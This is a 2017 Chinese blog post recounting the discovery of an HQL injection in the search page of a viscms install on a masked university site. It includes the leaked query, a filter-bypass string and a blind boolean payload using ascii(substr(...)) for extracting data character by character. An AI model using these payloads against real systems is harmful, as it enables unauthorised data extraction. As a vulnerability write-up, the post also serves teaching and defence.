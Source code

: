 ```yaml
---
layout: post
title: 记一次viscms的SQL挖掘
date: 2017-09-27
tags: SQL
---
```


### 记一次viscms的SQL挖掘

嘛，其实也不是什么事儿，在找高校的漏洞的时候发现存在这么一个鸡肋的漏洞。链接是这样的。

	http://cms.***.edu.cn:8080/viscms/search.jspx?q=1&siteId=127060&submit=
	
这是一个查找搜索返回结果的界面。参数`q`是查询的内容，siteid是实用的网页模板。经过测试，q存在注入，而且会返回apache的错误界面。

![1](/images/posts/viscms/1.png)

其中爆出了SQL原句

	select count( bean.id ) from com.viscms.cms.entity.main.Content bean left join bean.contentTxtSet contentTxt  where 1=1 and (bean.contentExt.title like '%admin'--%' or contentTxt.txt like '%admin'--%' or bean.contentExt.keyword like '%admin'--%') and bean.site.id=127060
	
所以我们得知SQL是这样写的，也知道了这是一个HQL查询。不正确的使用ORM，依旧会存在注入。这里就是一个例子。

因为是HQL所以`--`在oracle中的注释效果没有了。导致了报错，报错又给了我们SQL语句，算是一个惊喜。

绕过方法是
	
	1' or 1 like '1
	会拼接为
	bean.contentExt.title like '%1' or 1 like '1%' or contentTxt.txt
	
所以我们可插入的执行语句在or之前。
因为or只会执行一句，而这里还有原句的SQL，所以我们改为and确保我们的语句能执行。最后验证漏洞的payload为

	1' and ascii(substr('sql',1,1))>3 and 1 like '1

`sql`中可以写要查询的对象的属性，就可以爆破出来。但是鸡肋的地方在于，似乎没办法在原句中插入一个新的对象，不然可以遍历数据库中所有的信息。而现在只能遍历原句中已有的数据。

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [记一次viscms的SQL挖掘](http://RoyTse.github.io/2017/09/记一次viscms的SQL挖掘/)  